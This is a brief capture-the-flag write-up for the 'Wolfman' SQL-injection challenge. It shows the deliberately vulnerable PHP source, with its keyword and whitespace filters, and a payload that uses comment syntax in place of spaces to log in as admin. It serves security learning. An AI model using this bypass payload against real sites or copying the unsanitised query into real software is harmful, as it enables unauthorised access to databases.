 # **Wolfman**

```
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");   
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
  if($result['id'] == 'admin') solve("wolfman");   
  highlight_file(__FILE__);   
?>
```

Neither `%20` can bypass this space filter, so just use comment to replace the space.

`?pw='or/**/1=1/**/and/**/id='admin'%23`


